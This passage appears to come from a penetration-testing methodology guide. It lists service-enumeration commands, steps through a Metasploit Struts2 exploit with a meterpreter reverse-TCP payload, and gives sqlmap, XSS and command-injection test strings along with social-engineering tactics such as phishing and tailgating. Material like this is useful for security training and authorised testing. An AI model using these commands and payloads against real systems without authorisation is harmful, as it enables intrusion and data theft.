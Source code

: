 **3. Service Enumeration:**

|Service|Port|Enumeration Tool|Command Example|
|---|---|---|---|
|**SMB**|445|enum4linux|`enum4linux -a target.com`|
|**HTTP/S**|80/443|Nikto|`nikto -h http://target.com`|
|**DNS**|53|dnsrecon|`dnsrecon -d target.com -t std`|
|**FTP**|21|nmap scripts|`nmap --script ftp-* -p 21 target.com`|
|**SSH**|22|ssh-audit|`ssh-audit target.com`|
|**SNMP**|161|snmpwalk|`snmpwalk -v2c -c public target.com`|

#### 4. **EXPLOITATION**

Attempting to compromise the system by exploiting discovered vulnerabilities.

**Metasploit Framework:** My exploitation toolkit. The example  process I follow:

1. Search for relevant exploits: `search apache struts`
2. Select exploit: `use exploit/multi/http/struts2_content_type_ognl`
3. Configure options: `set RHOSTS target_ip`
4. Choose payload: `set payload linux/x64/meterpreter/reverse_tcp`
5. Execute: `exploit`

**Common Exploitation Scenarios:**

**1. Web Application Exploits:**

Bash

```
# SQL Injection with SQLMap
sqlmap -u "http://target.com/page.php?id=1" --dbs --batch

# XSS Testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>

# Command Injection
; ls -la
| whoami
`id`
```

**2. Network Service Exploits:**

- **Buffer Overflow:** Exploit memory corruption vulnerabilities
- **Default Credentials:** Try common username/password combinations
- **Misconfiguration:** Exploit improperly configured services

**3. Social Engineering:**

- **Phishing campaigns** using GoPhish or SET
- **Physical access** attempts (tailgating, badge cloning)
- **Pretexting** via phone calls
